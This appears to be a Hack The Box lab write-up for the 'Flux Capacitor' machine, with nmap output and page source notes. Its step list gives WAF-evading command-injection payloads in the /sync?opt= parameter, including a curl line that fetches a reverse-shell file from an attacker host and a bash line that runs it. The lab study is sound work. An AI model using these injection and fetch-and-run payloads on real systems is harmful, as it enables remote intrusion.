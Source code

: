 # HTB - Flux Capacitor  10.10.10.69




- Ubuntu 17.10 
- Linux fluxcapacitor 4.13.0-17-generic #20-Ubuntu SMP Mon Nov 6 10:04:08 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


- Read source, to get /sync url
- Fuzz /sync and discover ?opt=cmd
- Discover how to escape Waf : /sync?opt=' \l\s -al'
- Upload reverse shell : curl "http://10.10.10.69/sync?opt='? c\u\rl 10.10.14.32:8000 -o /tmp/a'"
- Run reverse shell : curl "http://10.10.10.69/sync?opt='? b\a\s\h /tmp/a '"
- Get reverse shell as nobody

- sudo -l to get root



## Walkthrough

- https://dastinia.io/write-up/hackthebox/2018/05/13/hackthebox-fluxcapacitor-writeup/


## nmap
```
# Nmap 7.70 scan initiated Sun Sep 15 00:16:15 2019 as: nmap -o enum/nmap_fluxcapacitor.htb.txt fluxcapacitor.htb
Nmap scan report for fluxcapacitor.htb (10.10.10.69)
Host is up (0.031s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
```



## 80: http://fluxcapacitor.htb

![](images/http:__fluxcapacitor.htb:80.png)
```
OK: node1 alive FluxCapacitor Inc. info@fluxcapacitor.htb - http://fluxcapacitor.htb
Roads? Where we're going, we don't need roads.
```

In sources
```
<!--
		Please, add timestamp with something like:
		<script> $.ajax({ type: "GET", url: '/sync' }); </script>
-->
```
